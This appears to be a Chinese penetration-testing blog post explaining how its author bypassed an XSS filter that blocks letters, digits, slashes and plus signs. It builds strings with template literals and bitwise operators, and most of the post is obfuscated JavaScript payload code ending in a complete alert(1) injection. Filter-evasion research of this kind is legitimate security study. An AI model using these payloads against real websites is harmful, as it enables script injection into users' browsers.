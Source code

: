 ​	最近在一次渗透中遇到了一个XSS，整个过程比较有趣，故记录下来。

​	该漏洞的输入点在后端过滤了数字、字母和斜杠（/），而输出点的位置在script标签内的字符串变量声明里，我们只需构造一个'-payload-'这样的payload便可以触发XSS，首先可以想到的是利用JSFuck，但不幸的是，后端还过滤了加号（%2b），于是便有了这篇文章的思路。

` 注，该漏洞的绕过方式还有很多种，这里仅仅只是提供一种绕过思路，算是对JSFuck的学习和拓展。`

​	这里首先提供一个思路

> \[\]\[\"constructor\"\]\[\"constructor\"\]\(\"alert(1)\"\)\(\) 

​	在这种情况下，我们只需要构造出"constructor\"以及payload的字符串即可触发XSS。一个有意思的玩法便是通过字符串模板来构造，当然这里离不开${}和反引号。用几个例子来展示一下：

> ![]  //  false
>
> \`![]\`  //  "![]"
>
> \`${![]}\`  //  "false"

​	字符串模板中的占位符的执行优先级是高于反引号的，我们可以利用占位符得到我们想要的对象，再得到其字符串。

> \`${!![]}\`   //  "true"
>
> \`${![]}\`  //  "false"
>
> \`${{}}\`   //   "[object Object]"
>
> \`${\[\]\[\[\]\]}\`  //  "undefined"

​	已经得到这么多字符串的情况下，我们可以利用索引来获取我们想要的字符，但加号被过滤了，我们还有什么办法可以快速构造数字的呢？

​	JS是弱类型语言，我们仅需要简单的运算即可得到基础的数字：

> []-[]  //  0    0b0
>
> !![]-[]  //  1    0b1
>
> !![]<<!![]  //  2    0b10
>
> !![]<<!![]<<!![]  // 4    0b100

​	通过位运算符得到这些基础数字后，可以执行的操作就很多了，我使用的是或运算，实际情况中还可以考虑其他的运算符。

> (!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![])|(!![]<<![])  //  233

​	剩下的就是构造payload的时候了，通过我们前面所说的`[]["constructor"]["constructor"]("alert(1)")() ` 思路，按部就班的做就可以了。

> \`${{}}\`[!![]<<!![]<<!![]|!![]-[]]   //  "c"
>
> \`${{}}`[!![]-[]]  //  "o"
>
> \`${\[\]\[\[\]\]}\`[!![]-[]]  //  "n"
>
> \`${![]}\`[!![]-[]|!![]<<!![]]  //  "s"
>
> \`${!![]}\`[[]-[]]  //  "t"
>
> \`${!![]}\`[!![]-[]]  //  "r"
>
> \`${\[\]\[\[\]\]}\`[[]-[]]  //  "u"
>
> \`${{}}\`[!![]<<!![]<<!![]|!![]-[]]   //  "c"
>
> \`${!![]}\`[[]-[]]  //  "t"
>
> \`${{}}`[!![]-[]]  // "o"
>
> \`${!![]}\`[!![]-[]]  //  "r"

​	拼接这些字符为一整个字符串。

> \`\$\{\`\$\{\{\}\}\`\[\!\!\[\]\<\<\!\!\[\]\<\<\!\!\[\]\|\!\!\[\]\-\[\]\]\}\$\{\`\$\{\{\}\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\[\]\[\[\]\]\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\!\[\]\}\`\[\!\!\[\]\-\[\]\|\!\!\[\]\<\<\!\!\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\[\]\-\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\[\]\[\[\]\]\}\`\[\[\]\-\[\]\]\}\$\{\`\$\{\{\}\}\`\[\!\!\[\]\<\<\!\!\[]\<\<\!\!\[\]\|\!\!\[\]\-\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\[\]\-\[\]\]\}\$\{\`\$\{\{\}\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\!\!\[\]\-\[\]\]\}\`   //  "constructor"
>
> Set\['constructor'\]\(alert(1))()

​	构造payload

> _=\`\$\{\`\$\{\{\}\}\`\[\!\!\[\]\<\<\!\!\[\]\<\<\!\!\[\]\|\!\!\[\]\-\[\]\]\}\$\{\`\$\{\{\}\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\[\]\[\[\]\]\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\!\[\]\}\`\[\!\!\[\]\-\[\]\|\!\!\[\]\<\<\!\!\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\[\]\-\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\[\]\[\[\]\]\}\`\[\[\]\-\[\]\]\}\$\{\`\$\{\{\}\}\`\[\!\!\[\]\<\<\!\!\[\]\<\<\!\!\[\]\|\!\!\[\]\-\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\[\]\-\[\]\]\}\$\{\`\$\{\{\}\}\`\[\!\!\[\]\-\[\]\]\}\$\{\`\$\{\!\!\[\]\}\`\[\!\!\[\]\-\[\]\]\}\`;
>
> [\]\[\_\]\[\_\]\(\`\$\{\`\$\{\!\!\[\]\[\~\[\]\]\}\`\[\!\!\{\}\<\<\!\[\]\]\}\$\{\`\$\{\!\!\[\]\[\~\[\]\]\}\`\[\!\!\{\}\<\<\!\!\[\]\]\}\$\{\`\$\{\!\[\]\[\~\[\]\]\}\`\[\(\!\!\[\]\<\<\!\!\[\]\)\|\!\!\[\]\]\}\$\{\`\$\{\!\[\]\[\~\[\]\]\}\`\[\!\!\{\}\<\<\!\[\]\]\}\$\{\`\$\{\!\[\]\[\~\[\]\]\}\`\[\!\{\}\<\<\!\[\]\]\}\(\$\{\!\!\{\}\<\<\!\[\]\}\)\`\)\(\)

